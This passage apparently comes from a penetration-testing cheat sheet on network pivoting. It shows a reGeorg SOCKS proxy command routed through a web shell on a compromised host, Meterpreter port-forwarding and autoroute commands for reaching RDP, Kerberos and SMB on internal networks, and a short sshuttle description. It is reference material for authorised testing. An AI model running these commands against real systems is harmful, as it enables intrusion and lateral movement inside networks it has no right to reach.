 ```python
python reGeorgSocksProxy.py -p 8080 -u http://compromised.host/shell.jsp # the socks proxy will be on port 8080

optional arguments:
  -h, --help           show this help message and exit
  -l , --listen-on     The default listening address
  -p , --listen-port   The default listening port
  -r , --read-buff     Local read buffer, max data to be sent per POST
  -u , --url           The url containing the tunnel script
  -v , --verbose       Verbose output[INFO|DEBUG]
```

## Metasploit

```powershell
# Meterpreter list active port forwards
portfwd list

# Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shell
portfwd add –l 3389 –p 3389 –r target-host
portfwd add -l 88 -p 88 -r 127.0.0.1
portfwd add -L 0.0.0.0 -l 445 -r 192.168.57.102 -p 445

# Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shell
portfwd delete –l 3389 –p 3389 –r target-host
# Meterpreter delete all port forwards
portfwd flush

or

# Use Meterpreters autoroute script to add the route for specified subnet 192.168.15.0
run autoroute -s 192.168.15.0/24
use auxiliary/server/socks4a

# Meterpreter list all active routes
run autoroute -p

route #Meterpreter view available networks the compromised host can access
# Meterpreter add route for 192.168.14.0/24 via Session number.
route add 192.168.14.0 255.255.255.0 3
# Meterpreter delete route for 192.168.14.0/24 via Session number.
route delete 192.168.14.0 255.255.255.0 3
# Meterpreter delete all routes
route flush
```

## sshuttle

Transparent proxy server that works as a poor man's VPN. Forwards over ssh.

* Doesn't require admin.
* Works with Linux and MacOS.
* Supports DNS tunneling.
